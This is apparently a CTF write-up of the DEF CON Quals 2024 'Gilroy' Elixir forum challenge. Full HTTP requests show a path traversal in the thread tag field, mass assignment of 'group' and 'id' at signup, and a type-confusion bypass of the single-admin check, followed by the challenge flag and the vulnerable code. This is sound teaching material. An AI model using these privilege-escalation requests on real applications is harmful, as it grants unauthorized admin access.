








---
Category:
  - Web
Difficulty: Easy
Platform: DefConQuals2024
Status: 3. Complete
tags:
  - type-confusion
  - type-juggling
  - elixir
  - path-traversal
  - parameter-injection
  - mass-assignment
---

# Setup

Clone and run https://github.com/IadRabbit/Gilroy-DEFCon-quals-2024.git
Application runs on http://localhost:4000/

Ticket:
`ticket{22weatherdeckweatherdeckweatherdeck143032:fvhGh-7jS1MsxxF4YlB74MPdWSKZl0clNAmCKO8HgkcA6jN9} `
# Information Gathering

## The application at-a-glance 🔍

The application presents itself as a forum where users can register, login, create threads and comment other users threads:



Users can have different roles: `normal` or `admin`



>[!info] Admin info
>```
>id
573972f1-0846-48ca-b99d-e1c654b0a331
name
shaggar_k_62273504
group
admin
>```

Furthermore, you are not allowed to post using some specific tags, otherwise you get banned:



## Verbose Errors leaking routes

```
Available routes
  GET     /rules                        GilroyWeb.PageController :rules
  GET     /                             GilroyWeb.PageController :home
  POST    /tickets                      GilroyWeb.TicketsController :create
  GET     /dashboard                    GilroyWeb.PageController :dashboard
  DELETE  /reset                        GilroyWeb.TicketsController :reset
  DELETE  /logout                       GilroyWeb.TicketsController :logout
  GET     /forum                        GilroyWeb.Forum.ForumController :index
  GET     /forum/index.php              GilroyWeb.Forum.ForumController :index
  GET     /forum/showforum.php          GilroyWeb.Forum.ForumController :index
  GET     /forum/signup.php             GilroyWeb.Forum.PosterController :create
  POST    /forum/signup.php             GilroyWeb.Forum.PosterController :new_form
  GET     /forum/showuser.php           GilroyWeb.Forum.PosterController :show
  GET     /forum/newuser.php            GilroyWeb.Forum.PosterController :new
  POST    /forum/newuser.php            GilroyWeb.Forum.PosterController :create
  POST    /forum/login.php              GilroyWeb.Forum.SessionController :login
  DELETE  /forum/logout.php             GilroyWeb.Forum.SessionController :logout
  GET     /forum/rules.php              GilroyWeb.PageController :rules
  GET     /forum/showthread.php         GilroyWeb.Forum.ThreadController :show
  GET     /forum/newthread.php          GilroyWeb.Forum.ThreadController :new
  POST    /forum/newthread.php          GilroyWeb.Forum.ThreadController :create
  GET     /forum/newreply.php           GilroyWeb.Forum.PostController :new
  POST    /forum/newreply.php           GilroyWeb.Forum.PostController :create
  GET     /forum/admin.php              GilroyWeb.Forum.AdminController :index
  GET     /admin/tickets                GilroyWeb.TicketLive.Index :index
  GET     /admin/tickets/:id            GilroyWeb.TicketLive.Show :show
  GET     /admin/thread_tags            GilroyWeb.PageController :thread_tags
  GET     /admin/forum                  GilroyWeb.PageController :forum
  GET     /admin/databass/:ticket_id    GilroyWeb.PageController :databass
  GET     /admin/dashboard/css-:md5     Phoenix.LiveDashboard.Assets :css
  GET     /admin/dashboard/js-:md5      Phoenix.LiveDashboard.Assets :js
  GET     /admin/dashboard              Phoenix.LiveDashboard.PageLive :home
  GET     /admin/dashboard/:page        Phoenix.LiveDashboard.PageLive :page
  GET     /admin/dashboard/:node/:page  Phoenix.LiveDashboard.PageLive :page
```

>[!info] Admin routes
>Every routes under `/admin` require a basic auth credential 
# Exploitation

## Path Traversal in newthread.php

>[!bug] 
>The bug

When users create a new thread, they send the following POST request to the server:

```http
POST /forum/newthread.php HTTP/1.1
Host: localhost:4000
Content-Length: 104
Cache-Control: max-age=0
Origin: http://localhost:4000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:4000/forum/newthread.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDEyNjA0ZTZkLWQ2NDYtNGNkZi1iMWJmLWQyMTMwYzZiNjlkNW0AAAAJdGlja2V0X2lkYQE.14gI3t1iC1rXcVtDpqXIbObLI_WNVeqnJKOaHsHx6kU
Connection: close

_csrf_token=OxAWCjg3IRk6MWNSeTVGPTs1DxE9BzBGtyOoPFKPcaU4JrkDIjHid4br&title=asd&tag=gross.png&content=asd
```

The `tag` field, however, is not checked at all by the server, allowing users to inject path traversal sequences in order to fetch any resource on the server, including PHP pages:

```http
POST /forum/newthread.php HTTP/1.1
Host: localhost:4000
Content-Length: 124
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:4000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:4000/forum/newthread.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYLW5lMEhzb1FoeG9IdUVMd0FBNlM5alRzbQAAAAlwb3N0ZXJfaWRtAAAAJDMxYTY5MWZiLTFlYmQtNDk4MS04MmZmLWViZmQ0ODNmYTRlY20AAAAJdGlja2V0X2lkYQE.lSVajs5dCr2AzQaf7unWeaQXxB_wdMrkW78CXfGbPiY
Connection: close

_csrf_token=HgUrY3wUV2QkFBwRPwEmDSYXcitSPwwC3kNS4g85LlsYJDjzgVDxkUXq&title=payload-test&tag=../../../../../../forum/banned.php&content=body+test
```




From now, anyone visiting the home page or the `payload-test` thread, will issue a GET request to `/forum/banned.php`

```html
</thead><!-- </GilroyWeb.ForumComponents.thread_header> -->
  <tbody>
    <!-- <GilroyWeb.ForumComponents.thread_row> lib/gilroy_web/components/forum_components.ex:145 --><tr class="thread" id="b6b4c91c-e48d-44c5-b487-3cd7b8b3cb90">
  <td class="tag"></td>
  <td class="title">
    <a href="/forum/showthread.php?threadid=b6b4c91c-e48d-44c5-b487-3cd7b8b3cb90">payload-test</a>
  </td>
```

## Mass Assignment in newuser.php and signup.php

>[!bug]
>The bug

When users register to the forum, the following request is sent to the server:

```http
POST /forum/newuser.php HTTP/1.1
Host: localhost:4000
Content-Length: 146
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:4000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:4000/forum/newuser.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWR3A25pbG0AAAAJdGlja2V0X2lkYQE.ibXLTSjB1yUT_F0yG2NyVNBuL2xtfU8kWF7Fco5Wvcg
Connection: close

_csrf_token=PxwsDiADXAQGZ08WYzd_CzsdDBYqXxZkpuukHr6M_7ypPpRrIBKnslDP&name=meethack&password=meethack&password_confirmation=meethack
```

Taking inspiration from the information returned by the `showuser.php` page, we can try guessing other existing body fields, eventually discovering that we can add arbitrary `group` parameters that will be accepted and used by the server.

```http
POST /forum/newuser.php HTTP/1.1
Host: localhost:4000
Content-Length: 145
Origin: http://localhost:4000
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:4000/forum/newuser.php
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWR3A25pbG0AAAAJdGlja2V0X2lkYQE.ibXLTSjB1yUT_F0yG2NyVNBuL2xtfU8kWF7Fco5Wvcg
Connection: close

_csrf_token=PxwsDiADXAQGZ08WYzd_CzsdDBYqXxZkpuukHr6M_7ypPpRrIBKnslDP&name=meethack-admin&password=meethack&password_confirmation=meethack&group=2

--- RESPONSE ---

HTTP/1.1 200 OK
<p class="mesg">An admin already exists</p>
```

Analyzing the verbose errors leaked by the application, we can notice that a `/forum/signup.php` route exists in the application, even though it is never used from the GUI. Passing to the routes the same POST parameters from  `/forum/newuser.php` we get some errors, however, when passing the same using a GET HTTP Method, we manage to get the path working properly (without having to provide a valid CSRF).

```http
GET /forum/signup.php?name=meethack&password=meethack&password_confirmation=meethack&group=2 HTTP/1.1
Host: localhost:4000
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDMxYTY5MWZiLTFlYmQtNDk4MS04MmZmLWViZmQ0ODNmYTRlY20AAAAJdGlja2V0X2lkYQE.vfNoRjajUiw1rsAKIq6Rf1Zaa2rdWaYzRybGpIhfxrc

--- RESPONSE ---

HTTP/1.1 200 OK
<p class="mesg">An admin already exists</p>
```

We can also provide arbitrary id values:
```http
GET /forum/signup.php?name=non-existing2&password=meethack&password_confirmation=meethack&id=573972f1-0846-48ca-b99d-e1c654b0a331 HTTP/1.1
Host: localhost:4000
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDMxYTY5MWZiLTFlYmQtNDk4MS04MmZmLWViZmQ0ODNmYTRlY20AAAAJdGlja2V0X2lkYQE.vfNoRjajUiw1rsAKIq6Rf1Zaa2rdWaYzRybGpIhfxrc


--- RESPONSE ---

Exception:

    ** (throw) {:db_unique, "posters.id"}
        (gilroy 0.1.0) lib/gilroy/miniforum/db.ex:172: Gilroy.Miniforum.Db.step/4
        (gilroy 0.1.0) lib/gilroy/miniforum/db.ex:154: anonymous fn/2 in Gilroy.Miniforum.Db.step/2
        (telemetry 1.2.1) /app/deps/telemetry/src/telemetry.erl:321: :telemetry.span/3
        (gilroy 0.1.0) lib/gilroy/miniforum/db.ex:72: Gilroy.Miniforum.Db.ins/3
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:95: anonymous fn/2 in GilroyWeb.Forum.PosterController.make_poster/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/miniforum.ex:33: anonymous fn/2 in GilroyWeb.Miniforum.update_mf_db/2
        (gilroy 0.1.0) lib/gilroy/tickets.ex:67: anonymous fn/2 in Gilroy.Tickets.with_locked_ticket/2
        (telemetry 1.2.1) /app/deps/telemetry/src/telemetry.erl:321: :telemetry.span/3
        (gilroy 0.1.0) lib/gilroy/tickets.ex:66: anonymous fn/2 in Gilroy.Tickets.with_locked_ticket/2
        (ecto_sql 3.11.0) lib/ecto/adapters/sql.ex:1358: anonymous fn/3 in Ecto.Adapters.SQL.checkout_or_transaction/4
        (db_connection 2.6.0) lib/db_connection.ex:1710: DBConnection.run_transaction/4
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/miniforum.ex:30: GilroyWeb.Miniforum.update_mf_db/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:81: GilroyWeb.Forum.PosterController.make_poster/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:33: GilroyWeb.Forum.PosterController.create/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:1: GilroyWeb.Forum.PosterController.action/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:1: GilroyWeb.Forum.PosterController.phoenix_controller_pipeline/2
        (phoenix 1.7.10) lib/phoenix/router.ex:432: Phoenix.Router.__call__/5
        (gilroy 0.1.0) lib/gilroy_web/endpoint.ex:1: GilroyWeb.Endpoint.plug_builder_call/2
        (gilroy 0.1.0) deps/plug/lib/plug/debugger.ex:136: GilroyWeb.Endpoint."call (overridable 3)"/2
        (gilroy 0.1.0) lib/gilroy_web/endpoint.ex:1: GilroyWeb.Endpoint.call/2
```

The application only allows the existence of a single admin, but it is possible to bypass the control with several techniques:
- Passing an array instead of a string
```http
GET /forum/signup.php?name=meethack-bypass&password=meethack&password_confirmation=meethack&group[]=2 HTTP/1.1
Host: localhost:4000
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDcyOThiMjczLTIwYzAtNGU5Yy04YjE1LWVkMjdiZDIwNjAxZm0AAAAJdGlja2V0X2lkYQE.pEwNh7xuplnJQvAoevmHOraZkcGKlejrdakU-ZY5fZk

--- RESPONSE ---

HTTP/1.1 302 Found
set-cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDRlZTVjZmU2LTVmYmItNDZiYi04MGU2LTVlYjhiYWYzNTc2OG0AAAAJdGlja2V0X2lkYQE.jj50UZnyR4eNpo_c-Sp73CNchRQaCDqz4koxzJDlfIk; path=/; HttpOnly; SameSite=Lax
```
- Passing a plain number using JSON instead of a string using plain HTTP
```http
POST /forum/newuser.php HTTP/1.1
Host: localhost:4000
Content-Length: 179
Origin: http://localhost:4000
Content-Type: application/json
Referer: http://localhost:4000/forum/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWR3A25pbG0AAAAJdGlja2V0X2lkYQE.ibXLTSjB1yUT_F0yG2NyVNBuL2xtfU8kWF7Fco5Wvcg
Connection: close

{"password_confirmation": "meethack", "_csrf_token": "Iw8wPQZBUxoTJlsQW3N0QS0qBSo9eSB8lfiXn09SJvmvh4Y8_uBRdJrH", "password": "meethack", "name": "meethack-bypass-json", "group":2}

--- RESPONSE ---

HTTP/1.1 302 Found
set-cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDRlZTVjZmU2LTVmYmItNDZiYi04MGU2LTVlYjhiYWYzNTc2OG0AAAAJdGlja2V0X2lkYQE.jj50UZnyR4eNpo_c-Sp73CNchRQaCDqz4koxzJDlfIk; path=/; HttpOnly; SameSite=Lax
```
# Flag

Once become admin, we can visit the `/forum/admin.php` route to obtain our flag:



>[!success] Flag
> `flag{22weatherdeckweatherdeckweatherdeck143032:Jyu9s4Opo0EAD3Sd8T3iBotxVUt1ibjNxvLRU3MC1iOg1lMyihgBHa6UytqF3HBF_agNCw}`

# Video Writeup


# Extra Miles

## Vulnerable code

The mass assignment vulnerability is caused because of the following snippet of code [^code]:
```elixir
 defp merge_poster_params(params) do
    %{
      "id" => UUID.uuid4(),
      "group" => 1
    }
    |> Map.merge(params)
  end
```

Reading the official documentation [^map-merge], the `Map.merge(params)` merges two maps into one, giving precedence to `map2` parameters over `map1` once.

>[!quote] `merge(map1, map2)`
>All keys in map2 will be added to map1, overriding any existing one (i.e., the keys in map2 "have precedence" over the ones in map1).

[^code]: https://github.com/Nautilus-Institute/quals-2024/blob/3ea5b442f1ecfb0cb0c9ce8ede52cb5e8df629b0/gilroy/lib/gilroy_web/controllers/forum/poster_controller.ex#L76
[map-merge]: https://hexdocs.pm/elixir/1.15.0/Map.html#merge/2

Because `params` comes from the user, we can basically override any existing parameter "hardcoded" in the `map`.

Moreover, the admin count can be bypassed because the of the following snippet of code [^code2]:
```elixir
defp make_poster(conn, merged_params) do
    try do
      update_mf_db(conn, fn db ->
        wannabe_admin = "2" == merged_params["group"]

        [[admin_count]] =
          Db.get(
            db,
            "SELECT count(id) FROM posters WHERE \"group\" = 2;"
          )

        if wannabe_admin && admin_count > 0 do
          throw({:error, "An admin already exists"})
        end
```

[^code2]: https://github.com/Nautilus-Institute/quals-2024/blob/3ea5b442f1ecfb0cb0c9ce8ede52cb5e8df629b0/gilroy/lib/gilroy_web/controllers/forum/poster_controller.ex#L82

In the snippet above, the application only check the `wannabe_admin` with the **string** `"2"`, but it does not take into consideration type-juggling-likelish vulnerability. Passing a JSON body containing a **numerical** value, we can bypass the security boundary and avoid the admin count.